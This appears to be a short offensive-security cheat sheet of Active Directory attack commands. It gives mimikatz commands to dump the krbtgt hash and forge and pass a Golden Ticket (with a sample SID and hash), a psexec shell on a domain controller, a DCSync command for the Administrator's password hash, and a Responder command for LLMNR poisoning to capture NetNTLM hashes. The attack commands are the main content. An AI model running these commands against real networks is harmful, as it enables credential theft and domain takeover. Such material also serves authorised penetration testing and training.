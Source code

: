 ### Golden Ticket - Pass the Ticket
It is a persistence and elevation of privilege technique where tickets are forged to take control of the Active Directory Key Distribution Service (KRBTGT) account and issue TGT's.
  Get hash krbtgt
```
./mimikatz.exe "privilege::debug" "lsadump::lsa /patch"
```
  Get SID
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```
- Exploitation
``` mimikatz
kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
misc::cmd

psexec.exe \\dc1 cmd.exe
```

### DCSync Attack
-> The DCSync attack consists of requesting a replication update with a domain controller and obtaining the password hashes of each account in Active Directory without ever logging into the domain controller.
```
./mimikatz.exe "lsadump::dcsync /user:Administrator"
```

### NetNTLM Authentication Exploits with SMB - LLMNR Poisoning - Capturing hash in responder
Responder allows you to perform Man-in-the-Middle attacks by poisoning responses during NetNTLM authentication, making the client talk to you instead of the real server it wants to connect to.
On a real lan network, the responder will attempt to poison all Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Server (NBT-NS), and Web Proxy Auto-Dscovery (WPAD) requests detected. NBT-NS is the precursor protocol to LLMNR.
```
responder -I eth0 -v
```

